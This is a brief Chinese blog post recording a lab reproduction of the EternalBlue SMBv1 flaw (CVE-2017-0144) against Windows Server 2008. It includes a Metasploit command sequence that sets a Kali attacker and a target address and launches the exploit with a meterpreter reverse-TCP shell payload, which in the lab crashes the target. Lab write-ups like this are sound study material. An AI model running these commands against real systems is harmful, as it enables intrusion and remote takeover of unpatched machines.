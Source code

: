 # Windows Server 2008 CVE20170144验证

<iframe frameborder="no" border="0" marginwidth="0" marginheight="0" width=330 height=86 src="//music.163.com/outchain/player?type=2&id=29567192&auto=1&height=66"></iframe>  

歌挺好听，奈何水文太短，看完歌都没听完。😂抱歉了~嘿嘿嘿

本文也是照着别人写的例子完全操作成功了，然后再记录下来的，为方便以后使用，特此整理记录。

### 漏洞信息
CVEID：2017-0144  
漏洞名称：Windows server 2008系列缓冲区溢出漏洞（永恒之蓝）  
发布时间：2017-03-14

### 漏洞简介
Server Message Block（SMB）Server是为计算机提供身份验证用以访问服务器上打印机和文件系统的组件。 Microsoft Windows中的SMBv1服务器存在远程代码执行漏洞。远程攻击者可借助特制的数据包利用该漏洞执行任意代码。

### 实验环境
Kali x64（攻击机）：192.168.0.6  
Windows server 2008 x64（靶机）：192.168.0.9

```sh
msfconsole
use exploit/windows/smb/ms17_010_eternalbluer
set LHOST 192.168.0.6 
set RHOST 192.168.0.9 
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit
```

![winserver2008attack1](/images/posts/winserver2008attack1.png)



![winserver2008attack2](/images/posts/winserver2008attack2.png)



### 现象：

靶机windows server 2008 x64蓝屏宕机重启。

 ![winserver2008crush](/images/posts/winserver2008-crush.png)


---

> Author: 蓝红柿  
> URL: http://localhost:1313/en/zh/posts/win-server-2008-cve20170144/  


